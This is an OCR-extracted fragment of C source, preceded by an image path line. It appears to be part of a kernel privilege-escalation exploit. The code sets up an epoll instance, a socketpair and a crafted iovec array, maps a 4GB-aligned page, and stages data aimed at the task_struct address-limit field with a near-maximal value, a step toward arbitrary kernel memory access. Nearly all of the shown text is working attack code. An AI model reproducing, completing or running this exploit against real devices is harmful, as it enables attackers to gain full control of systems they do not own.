 ```
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");

    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }

    printf("[+] setting up iovecs \n");

    if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
```